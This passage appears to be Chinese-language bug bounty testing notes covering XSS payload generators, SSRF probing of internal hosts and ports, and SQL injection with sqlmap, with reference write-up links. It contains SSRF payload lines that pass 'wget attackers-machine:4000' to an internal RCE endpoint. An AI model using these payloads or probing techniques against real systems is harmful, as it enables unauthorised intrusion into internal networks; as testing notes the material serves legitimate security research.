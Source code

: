 payload生成：

```
xssor.io
http：//www.jsfuck.com/ 
https://github.com/aemkei/jsfuck 
https://convert.town/ascii-to-text
http://jdstiles.com/java/cct.html
```

## 6.SSRF

在可以控制url参数的情况下，只要不重定向，就可以测试一下SSRF。
Webhooks, PDF 生成， 文档解析, 文件上传这些地方都可以重点关注一下。

PS:<https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF>

想办法探测内网资产：<http://internal-server:22/notarealfile.txt>
更换端口，查看回显，判断端口的开放。
没有回显的情况下，按照响应时间判断，以及DNSLOG，这玩意burp自带的也好用的。
根据我的经验，一些组件只能使用某些端口，例如80,8080,443等。最好对这些端口进行测试。

如果你的payload中有路径，最好带上&,#

```
http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000&
http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000#
```

这篇文章对SOP和CORS以及SSRF都有很好的讲解：https//www.bishopfox.com/blog/2015/04/vulnerable-by-design-understanding-server-side-request-forgery/

Bug Bounty Write-ups:

```
https://hackerone.com/reports/115748
https://hackerone.com/reports/301924
https://www.sxcurity.pro/hackertarget/
http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html
https://seanmelia.files.wordpress.com/2016/07/ssrf-to-pivot-internal-networks.pdf
https://github.com/ngalongc/bug-bounty-reference#server-side-request-forgery-ssrf
https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/
```

## 7.SQL注入

使用SQLMap在PUT REST Params中测试SQLi：

```
1. 使用 *标记Vulnerable参数
2. 复制请求并将其粘贴到文件中。
3. 用sqlmap运行：
sqlmap -r <file with request> -vvvv
```

备忘录:<https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/>
